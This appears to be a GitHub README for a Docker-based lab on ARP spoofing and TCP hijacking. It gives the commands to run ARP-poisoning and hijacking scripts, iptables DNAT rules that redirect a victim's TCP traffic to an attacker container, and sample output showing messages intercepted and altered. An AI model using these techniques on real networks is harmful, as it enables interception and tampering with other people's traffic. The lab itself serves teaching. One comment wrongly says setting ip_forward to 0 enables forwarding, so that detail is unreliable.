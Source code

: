 # ARP spoofing & TCP hijaking

## Network structure

```
            MIDDLE------------\
        subnet2: 198.7.0.3     \
        MAC: 02:42:c6:0a:00:02  \
               forwarding        \ 
              /                   \
             /                     \
Poison ARP 198.7.0.1 is-at         Poison ARP 198.7.0.2 is-at 
           02:42:c6:0a:00:02         |         02:42:c6:0a:00:02
           /                         |
          /                          |
         /                           |
        /                            |
    SERVER <---------------------> ROUTER <---------------------> CLIENT
net2: 198.7.0.2                      |                           net1: 172.7.0.2
MAC: 02:42:c6:0a:00:03               |                            MAC eth0: 02:42:ac:0a:00:02
                           subnet1:  172.7.0.1
                           MAC eth0: 02:42:ac:0a:00:01
                           subnet2:  198.7.0.1
                           MAC eth1: 02:42:c6:0a:00:01
                           subnet1 <------> subnet2
                                 forwarding

```

## Installation

### Requirements

- [docker](https://docs.docker.com/engine/install/)
- [docker-compose](https://docs.docker.com/compose/install/standalone/)


Getting the repository:
```bash
git clone https://github.com/VladSteopoaie/ARPspoofing-TCPhijaking.git
cd ARPspoofing-TCPhijaking
```

Building the containers (docker might require admin permissions):
```bash
docker-compose up -d
```

Now you can connect to each container with the following command:
```bash
docker exec -it <container-id> /bin/bash
# to get the container id you can use `docker ps`
```

## Usage

### Scenario I (client-server communication)

Connect to the `client` container and follow the commands:

```bash
cd scripts
python3 tcp_client.py
```

You should see the `client` hanging with the following message:

```
[~] Connecting to ('198.7.0.2', 10000)...
```

Connect to the `server` container and follow the commands:

```bash
cd scripts
python3 tcp_server.py
```

You should see the `server`'s message:

```
[~] Server listening on 198.7.0.2:10000
[~] Waiting for connections...
```

After a short while the `server` and `client` should communicate and you should see something like this:

```
####### SERVER #######
[~] Handshake with ('198.7.0.1', 51902)
[~] Message received: "b'gAFMG`'"
[~] Message sent: "b'gAFMG`-server'"
[~] Message received: "b'`{qEUHmR'"
[~] Message sent: "b'`{qEUHmR-server'"
[~] Message received: "b'RWfBnD'"
[~] Message sent: "b'RWfBnD-server'"
~~~SNIP~~~

####### CLIENT #######
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "gAFMG`"
[~] Message received: "b'gAFMG`-server'"
[~] Message sent: "`{qEUHmR"
[~] Message received: "b'`{qEUHmR-server'"
[~] Message sent: "RWfBnD"
[~] Message received: "b'RWfBnD-server'"
~~~SNIP~~~
```

Note: The `client` is generating random strings as messages and the `server` is appending '-server' to the data and sends it back.

### Scenario II (ARP spoofing)

Now that we have the `client` and `server` communicating let's add the `middle`.
Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=0 # enables packet forwarding
python3 arp.py 198.7.0.1 198.7.0.2 # Usage: python3 arp.py router_ip victim_ip
```

You should see the following:

```
[*] Default Gateway MAC: 02:42:c6:07:00:01
[*] Victim MAC: 02:42:c6:07:00:02
[~] Started ARP poisoning!
[~] Starting network caputre.
```

Start the `client` and `server` as before and wait until some packets are sent.<br>
Stop all the scripts with CTRL^C repeatedly.<br>
On the `middle` container you should have a file that looks like this `198.7.0.2_caputre.pcap`, check if it has some contents. If the file is not empty then the attack was successful and the middle intercepted the packets. You can use `tcpdump -r <file_name>.pcap` to analyze the packets from the terminal or extract the file on your machine with `docker cp` and analyze it in Wireshark.<br> <br>

Here is the file analyzed with Wireshark:
![Wireshark image](images/wireshark.png)

### Scenario III (TCP hijacking)

The process here is similar to the one in Scenario II. Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -t nat -A PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
python3 hijack.py 198.7.0.1 198.7.0.2 # Usage: python3 hijack.py router_ip victim_ip
```
You should see the same text as for ARP spoofing script.

Now start the `server` and `client` and wait until some packets are sent.
You should see an output similar to this for each container:

```
####### MIDDLE #######
[~] Handshake with ('198.7.0.1', 47994)
[~] Initiating connection with the server...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message received: "b'_SPsNPDU'"
[~] Sending "_SPsNPDU-middle" to server...
[~] Received message: "b'_SPsNPDU-middle-server'"
[~] Sending "_SPsNPDU-middle-server-middle" to the client...
[~] Message received: "b'is`Nt'"
[~] Sending "is`Nt-middle" to server...
[~] Received message: "b'is`Nt-middle-server'"
[~] Sending "is`Nt-middle-server-middle" to the client...
[~] Message received: "b'[vVMY`'"
[~] Sending "[vVMY`-middle" to server...
[~] Received message: "b'[vVMY`-middle-server'"
[~] Sending "[vVMY`-middle-server-middle" to the client...
[~] Message received: "b''"
[!] Connection closed! (fake server)
[!] Connection closed! (fake client)
~~~SNIP~~~

####### SERVER #######
[~] Waiting for connections...
[~] Handshake with ('198.7.0.3', 57532)
[~] Message received: "b'_SPsNPDU-middle'"
[~] Message sent: "b'_SPsNPDU-middle-server'"
[~] Message received: "b'is`Nt-middle'"
[~] Message sent: "b'is`Nt-middle-server'"
[~] Message received: "b'[vVMY`-middle'"
[~] Message sent: "b'[vVMY`-middle-server'"
[X] Connection closed
~~~SNIP~~~

####### CLIENT #######
[~] Connecting to ('198.7.0.2', 10000)...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "_SPsNPDU"
[~] Message received: "b'_SPsNPDU-middle-server-middle'"
[~] Message sent: "is`Nt"
[~] Message received: "b'is`Nt-middle-server-middle'"
[~] Message sent: "[vVMY`"
[~] Message received: "b'[vVMY`-middle-server-middle'"
~~~SNIP~~~
```

So the `middle` intercepted the packets between the `server` and `client`, it hijaked the connection and appended a message ('-middle') for each packet it captured. 

Note: if the communication is not working and the `client` is hanging, try restarting the hijack.py script.

After closing the scripts don't forget to restore the containers with this commands:

```bash
####### CLIENT & SERVER #######
ip -s -s neigh flush all

####### MIDDLE #######
iptables -t nat -D POSTROUTING -j MASQUERADE
iptables -t nat -D PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
```
